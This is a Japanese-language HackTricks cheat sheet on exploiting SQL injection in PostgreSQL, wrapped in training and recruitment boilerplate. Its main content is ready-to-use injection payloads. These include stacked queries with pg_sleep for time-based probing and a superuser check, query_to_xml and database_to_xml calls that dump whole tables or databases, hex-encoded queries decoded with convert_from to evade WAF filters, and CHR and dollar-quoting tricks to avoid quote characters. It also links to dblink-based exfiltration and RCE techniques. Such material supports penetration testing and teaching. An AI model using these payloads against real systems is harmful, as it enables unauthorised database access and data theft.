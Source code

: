 # PostgreSQLインジェクション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

***

**このページは、PostgreSQLデータベースで見つかったSQLインジェクションを悪用するのに役立つさまざまなトリックを説明し、** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **で見つけられるトリックを補完することを目的としています。**

## ネットワークインタラクション - 権限昇格、ポートスキャナー、NTLMチャレンジレスポンスの開示とエクスフィルトレーション

**PostgreSQLモジュール`dblink`**は、他のPostgreSQLインスタンスに接続し、TCP接続を実行する機能を提供します。これらの機能は、`COPY FROM`機能と組み合わせることで、権限昇格、ポートスキャン、NTLMチャレンジレスポンスのキャプチャなどのアクションを可能にします。これらの攻撃を実行する詳細な方法については、[これらの攻撃を実行する方法](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)を確認してください。

### **dblinkと大きなオブジェクトを使用したエクスフィルトレーションの例**

[**この例を読む**](dblink-lo\_import-data-exfiltration.md)と、**大きなオブジェクト内にデータをロードし、その後`dblink_connect`関数のユーザー名内の大きなオブジェクトの内容をエクスフィルトレーションする方法**のCTF例を確認できます。

## PostgreSQL攻撃：読み取り/書き込み、RCE、権限昇格

PostgreSQLからホストを侵害し、権限を昇格させる方法を確認してください：

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAFバイパス

### PostgreSQL文字列関数

文字列を操作することで、**WAFやその他の制限をバイパスする**のに役立ちます。\
[**このページ**](https://www.postgresqltutorial.com/postgresql-string-functions/)**では、いくつかの便利な文字列関数を見つけることができます。**

### スタッククエリ

PostgreSQLはスタッククエリをサポートしていますが、2つのレスポンスが返されるとエラーをスローするアプリケーションがいくつかあります。ただし、タイムインジェクションを介してスタッククエリを悪用することは可能です：
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XMLトリック

**query\_to\_xml**

この関数は、すべてのデータをXML形式で1つのファイルに返します。大量のデータを1行でダンプしたい場合に最適です：
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

この関数は、データベース全体をXML形式で1行にダンプします（データベースが非常に大きい場合は注意してください。DoS攻撃を引き起こす可能性がありますし、クライアントにも影響を与えるかもしれません）：
```sql
SELECT database_to_xml(true,true,'');
```
### 16進数の文字列

**文字列の中に**（例えば、**`query_to_xml`**関数を使用して）**クエリを渡すことができる場合**、**convert\_fromを使用して文字列を16進数として渡し、この方法でフィルタを回避できます：**

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### 禁止された引用符

ペイロードに引用符を使用できない場合、基本的な句のために `CHR` を使用してこれを回避できます（_文字の連結は、SELECT、INSERT、DELETEなどの基本的なクエリにのみ機能します。すべてのSQLステートメントには機能しません_）：
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
または `$` を使用します。このクエリは同じ結果を返します：
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

もしあなたが**ハッキングキャリア**に興味があり、アンハッカブルなものをハックしたいなら - **私たちは採用しています！**（_流暢なポーランド語の読み書きが必要_）。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
